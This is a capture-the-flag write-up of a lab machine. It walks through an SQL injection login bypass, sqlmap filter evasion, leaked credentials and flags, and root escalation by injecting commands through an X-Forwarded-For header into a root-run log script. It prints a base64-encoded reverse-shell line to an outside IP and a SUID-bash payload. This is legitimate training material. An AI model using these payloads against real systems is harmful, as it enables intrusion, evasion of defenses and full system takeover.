## TL;DR

In this challenge we exploit `SQL Injection` to get `kitty`'s credentials and login to the ssh service.

Then, we find possible `OS Command Injection` at `/opt/log_checker.sh`. In order to exploit this, we find internal service which let us write logs into the file `/var/www/development/logged` as user `www-data`, which leads to command execution as root.

This challenge is cool, since we do the way from `kitty` to `www-data`, while usually we are going on the opposite direction.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:bd:ca:64:7c:5b:f1:a6:16:9d:89:fc:86:85:8a:be (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC6qaoteb4DHaqY+jCx76rep8fWnv/Ryrk+WXJmTQqjZObDtI6YjUKGKa4zxsE5mVoJbzD1LUzH3asM3rHMpyA2YU6oVsAOD/8BUbNOymjZx3lNirEVzaarel8x6tq0OA7Ho5Km1GBt6zfct1xb1N2HV2t2+RmnsGNFvFtgqXgXWipmPU0fX5RMCYG6cg11vSlc9xnnCaQ9MPS2vEspluT4LS1kl5lOyJvLEo/+MLXvComSQNxpQ+SQRxT1o8JxWa5AzL6BfENGjb4hvA/405STT/Lc3jrw9P36BZA1PmRFWmq7bs/+2XqXn51XRCgyz5TV7k6giYEyBYS2AOZVFua428N/2E5nl1wWjE+rOzR3smq6VBNlZPxd45+jsLGWC73rQznDIXSoKK0vuLMyf2oalScsjQLetmESxH+MIfqgm1l5cISEavFOTsnW2sliZxY+3XEcOw+BvdXxje6KvaBOYWkchUXV4bikQa3DaAGGx+AWccu+i3Xw8FgOGH9aRVU=
|   256 58:4a:20:6d:52:12:88:c1:c4:b7:71:3f:f3:5e:75:f0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBEXh3dN+gvRKsNj3ZvlRXx5J585H9tmu6jaBQUDGsS1zz+3T88ZsjSL6yvOy2RocGC3QnbYU7amB77wrqSgh6k=
|   256 ae:0f:cf:3d:d2:65:8e:6c:b9:c3:e8:b6:3b:9b:47:29 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILAXzH+Q59z2NDP1ilWN0Jt/ZO0L+GsRnESSQYXtDwaj
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `kitty.thm` to our `/etc/hosts`.

### Exploit SQL Injection to get credentials for kitty

I first saw the login portal, so I tried to login with this:
```bash
a' || '1'='1' -- -
```



and saw it works, so there is `SQL Injection`:



We'll use this command, with `sqlmap`:
```bash
sqlmap -r req.txt --batch --technique=B --tamper=symboliclogical --level=5 --risk=3 --drop-set-cookie
```

Notice I used the script `symboliclogical.py`, because I noticed that when giving `OR`, i get back "SQL Injection detected. This incident will be logged!".

> Replaces AND and OR logical operators with their symbolic counterparts (&& and ||)



I also added the `technique`, which is `Blind SQLi`, and add more advanced scan using the `level` and `risk`. In addition, very important, i added `drop-set-cookie`, because it automatically adds the `PHPSESSID` cookie, which makes me connected persistently, which breaks the whole scan.

Now, we can start playing and fetch the data.



Okay, after a lot of time with ChatGPT and `sqlmap`, I gave up on sqlmap and decided to do it manually :|

Let's use this script:
```py

```

and we get those credentials, which are also valid for the ssh:
```bash
kitty:L0ng_Liv3_KittY
```



grab the user flag
```bash
kitty@ip-10-80-141-143:~$ cat user.txt 
THM{31e606998972c3c6baae67bab463b16a}
```

### Write to /var/www/development/logged arbitrary input

We are logged in as `kitty`:
```bash
kitty@ip-10-80-166-230:~$ id
uid=1000(kitty) gid=1000(kitty) groups=1000(kitty)
```

I executed `pspy` to inspect the processes that are being executed, and find `/opt/log_checker.sh`, which is being executed under root.



We can see the file belongs to root, however, it reads content from `/var/www/development/logged`, and thus it vulnerable to `OS Command Injection`.

```bash
kitty@ip-10-80-141-143:/tmp$ ls -l /opt/log_checker.sh
-rw-r--r-- 1 root root 152 Feb 25  2023 /opt/log_checker.sh
kitty@ip-10-80-141-143:/tmp$ cat /opt/log_checker.sh
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

The idea it to put something like `"; id; #` inside the file `/var/www/development/logged`.
I've tried to do it, but i got permission denied, because this file is owned by `www-data`.

```bash
kitty@ip-10-80-141-143:/tmp$ echo -e '";printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash #' > /var/www/development/logged 
bash: /var/www/development/logged: Permission denied
```



Okay, I checked for other services on the machine, using `ss -tln`:
```bash
kitty@ip-10-80-166-230:~$ ss -tln
State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
LISTEN            0                 511                              127.0.0.1:8080                               0.0.0.0:*                                  
LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
LISTEN            0                 151                              127.0.0.1:3306                               0.0.0.0:*                                  
LISTEN            0                 4096                         127.0.0.53%lo:53                                 0.0.0.0:*                                  
LISTEN            0                 70                               127.0.0.1:33060                              0.0.0.0:*                                  
LISTEN            0                 511                                      *:80                                       *:*                                  
LISTEN            0                 128                                   [::]:22                                    [::]:*
```



There is some service on port `8080`, let's check what is this exactly.
```bash
kitty@ip-10-80-166-230:~$ curl http://127.0.0.1:8080/


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Development User Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/index.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control">
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control">
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>
```

This looks very similar to the website we met on the beginning, but this time as development.



Let's set port forwarding, from port `8080` on remote machine, to our port `8088`:

```bash
portfwd 0.0.0.0:8088 -> 127.0.0.1:8080
```



and now, we can go to `http://localhost:8088/`:



I researched the code in `/var/www/development`, and find inside `index.php` this code:
```php
$username = $_POST['username'];                                                                                                                              
$password = $_POST['password'];                                                                                                                              
// SQLMap                                                                                                                                                    
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];                                                                   
foreach ($evilwords as $evilword) {                                                                                                                          
        if (preg_match( $evilword, $username )) {                                                                                                            
                echo 'SQL Injection detected. This incident will be logged!';                                                                                
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];                                                                                                      
                $ip .= "\n";                                                                                                                                 
                file_put_contents("/var/www/development/logged", $ip);                                                                                       
                die();                                                                                                                                       
        } elseif (preg_match( $evilword, $password )) {                                                                                                      
                echo 'SQL Injection detected. This incident will be logged!';                                                                                
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];                                                                                                      
                $ip .= "\n";                                                                                                                                 
                file_put_contents("/var/www/development/logged", $ip);                                                                                       
                die();                                                                                                                                       
        }                                                                                                                                                    
}
```



So, here we can insert our malicious code to the file `/var/www/development/logged`, in order the get `OS Command Injection`.

I googled and found out that the `$_SERVER['HTTP_X_FORWARDED_FOR']` is being taken from teh `X-Forwarded-For` header, so let's test this:

```bash
curl http://localhost:8080/index.php -X POST -d 'username=0x&password=1' -H 'X-Forwarded-For: testing'
```

as we can see, the file actually contains it.



### Privilege Escalation to Root using OS Command Injection

Now, we want to execute `chmod u+s /bin/bash`, so let's give this payload:
```bash
curl http://localhost:8080/index.php -X POST -d 'username=0x&password=1' -H 'X-Forwarded-For: 1337; chmod u+s /bin/bash; #'
```



as you can see, we added the SUID bit to `/bin/bash`.
now, we just need to grab the root flag:
```bash
kitty@ip-10-80-166-230:/var/www/development$ bash -p
bash-5.0# id
uid=1000(kitty) gid=1000(kitty) euid=0(root) groups=1000(kitty)
bash-5.0# cat /root/root.txt 
THM{581bfc26b53f2e167a05613eecf039bb}
```


